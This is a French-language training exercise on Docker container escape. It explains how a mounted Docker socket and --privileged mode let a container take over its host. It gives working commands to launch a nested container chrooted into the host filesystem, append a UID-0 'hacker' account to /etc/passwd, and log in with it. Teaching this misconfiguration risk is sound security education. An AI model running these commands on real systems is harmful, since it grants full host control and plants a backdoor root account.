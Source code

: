 # **🔹 Exercise 10 Conteneur dangereux : Accès root de l'hôte depuis un conteneur 🚨⚠️**
En **production**, mal configurer un conteneur **peut exposer l’hôte** à des attaques et permettre une **escalade de privilèges**.  

📌 **Problème** : Certains paramètres de lancement permettent à un conteneur de **prendre le contrôle de l’hôte** !  

---

## **1️⃣ Pourquoi c’est dangereux ?**
- **Docker tourne en root** → Un conteneur peut potentiellement exécuter des commandes avec les **droits root** de l’hôte.
- **Accès au socket Docker (`/var/run/docker.sock`)** → Permet au conteneur de **gérer Docker lui-même**, créer d'autres conteneurs, supprimer des fichiers, etc.
- **Montage du système de fichiers de l’hôte** → Le conteneur peut **modifier des fichiers critiques** (`/etc/passwd`, `/root/.ssh`, `/etc/shadow`).
- **Ajout de privilèges avec `--privileged`** → Donne **un accès complet au noyau** du système.

---

## **2️⃣ Conteneur dangereux qui peut obtenir un accès root à l'hôte**
🚨 **Ne testez cela que sur une machine de test** 🚨

### **📌 Exemple : Accès root à l’hôte via `/var/run/docker.sock`**
1️⃣ **Lancer un conteneur en **mode privilégié** et en exposant le socket Docker** :
```sh
docker run -it --rm \
  --privileged \
  -v /var/run/docker.sock:/var/run/docker.sock \
  alpine sh
```
2️⃣ **Dans le conteneur, créer un nouveau conteneur root privilégié** :
```sh
docker run -it --rm --privileged --net=host --pid=host -v /:/mnt alpine chroot /mnt sh
```
📌 **Résultat attendu** :  
- Vous avez un accès **root complet à l’hôte** depuis le conteneur.
- Vous pouvez **modifier des fichiers système**.

3️⃣ **Test : Ajouter un nouvel utilisateur root sur l’hôte** :
```sh
echo "hacker:x:0:0::/root:/bin/bash" >> /etc/passwd
```
4️⃣ **Ouvrir une session sur l’hôte avec cet utilisateur** :
```sh
su hacker
```
📌 **Le conteneur a complètement pris le contrôle de l’hôte !** 😱

---

## **3️⃣ Expliquer comment cela fonctionne**
### **🔍 Exploitation de `/var/run/docker.sock`**
Docker expose une **API UNIX (`/var/run/docker.sock`)** qui permet de gérer les conteneurs.  
📌 **Problème** :  
Si un conteneur a accès à ce socket, il peut :
- Lancer **d'autres conteneurs avec des privilèges élevés**.
- **Supprimer des conteneurs** sur l’hôte.
- **Monter tout le système de fichiers de l’hôte**.

### **🔍 Exploitation du mode `--privileged`**
L’option `--privileged` donne au conteneur **tous les privilèges root** :
- **Accès aux périphériques de l’hôte (`/dev`, `/sys`)**.
- **Modification des paramètres du noyau**.
- **Ajout d’interfaces réseau**.
- **Chargement de modules noyau**.

📌 **Conséquence** :
👉 Un attaquant peut **modifier l’OS de l’hôte directement depuis un conteneur** !